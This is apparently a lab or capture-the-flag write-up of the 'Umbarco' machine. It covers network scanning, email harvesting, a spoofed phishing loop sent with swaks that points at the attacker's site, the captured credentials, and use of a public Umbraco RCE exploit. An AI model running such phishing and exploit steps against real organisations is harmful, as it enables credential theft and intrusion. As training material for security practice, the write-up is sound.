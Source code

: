 # Umbarco

At initial point we scanned the network with command nmap -Pn 10.10.10.225-246 and got 2 hosts with opened 80 port (10.10.10.245 and 10.10.10.246) and 2 hosts with opened 25 port (10.10.10.225 and 10.10.10.226).
Crawling the site at 10.10.10.246 we found 5 emails:

- d.taylor@htb.local
- m.brailsford@htb.local
- l.kelleher@htb.local
- j.leopold@htb.local
- j.breuer@htb.local

And after we tried to fish something sending a link to our fake site with the following command: 

```while read mail; do swaks --to $mail --from "it@htb.local" --header "Subject: http://10.10.14.34" --body "http://10.10.14.34" --server 10.10.10.226 --ehlo debain; done < mail.txt```
, where mail.txt is a list of founded emails.
Bingo! We got credentials! 
`user=d.taylor&password=M3g%40St0r3%21`
Using credentials and public exploit https://github.com/noraj/Umbraco-RCE we got an RCE on the target machine and found a flag.

![](pictures/2021-03-26-22-01-03.png)
 
